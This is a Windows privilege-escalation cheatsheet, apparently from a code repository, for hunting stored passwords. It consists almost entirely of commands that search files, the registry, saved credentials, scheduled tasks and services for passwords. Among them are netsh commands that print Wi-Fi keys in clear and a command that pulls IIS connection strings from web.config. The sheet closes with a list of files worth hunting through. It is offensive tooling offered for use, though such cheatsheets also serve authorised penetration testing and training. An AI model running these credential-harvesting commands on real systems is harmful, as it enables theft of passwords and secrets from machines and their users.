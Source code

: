 Windows Privilege Escalation – Password Hunting Cheatsheet
1. Findstr (File-based Hunting)
:: Search common config/text files
findstr /si password *.txt *.ini *.config

:: Search full C: drive for passwords
findstr /si password c:\*.txt c:\*.ini c:\*.config

:: Search all files for multiple keywords
findstr /si "password pass pwd user admin login" *.*

:: Search Desktop & Documents of all users
findstr /si password "C:\Users\*\Desktop\*" "C:\Users\*\Documents\*"

:: Search registry dump files (if exported)
findstr /si password *.reg

:: Search inside Program Files
findstr /si password "C:\Program Files\*.*"

2. Registry Hunting
:: Look for stored RDP / Winlogon creds
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

:: Look for auto-logon passwords
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"

:: Search registry for "password"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

3. Saved Credentials & Services
:: List saved credentials
cmdkey /list

:: Check services for stored creds
sc qc <servicename>

:: Search scheduled tasks (often store passwords)
schtasks /query /fo LIST /v

4. File Content Check
:: Print content of a file
type filename.txt

:: Search inside log files
findstr /si password *.log

5. PowerShell Alternatives
# Search for "password" inside all files
Get-ChildItem -Recurse | Select-String -Pattern "password"

# Search only in config files
Select-String -Path *.config -Pattern "password"

# Check for stored credentials in registry
Get-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Run'

6. Network & App Creds
:: Check Wi-Fi passwords (Admin needed)
netsh wlan show profile
netsh wlan show profile name="SSID" key=clear

:: Look at IIS config (web passwords)
type C:\inetpub\wwwroot\web.config | findstr connectionString

7. Bonus – Interesting Files to Hunt

web.config, db.config, app.config

.ini, .bat, .ps1, .vbs, .xml

Log files in C:\Windows\System32\LogFiles\

Backup files: .bak, .old, .zip
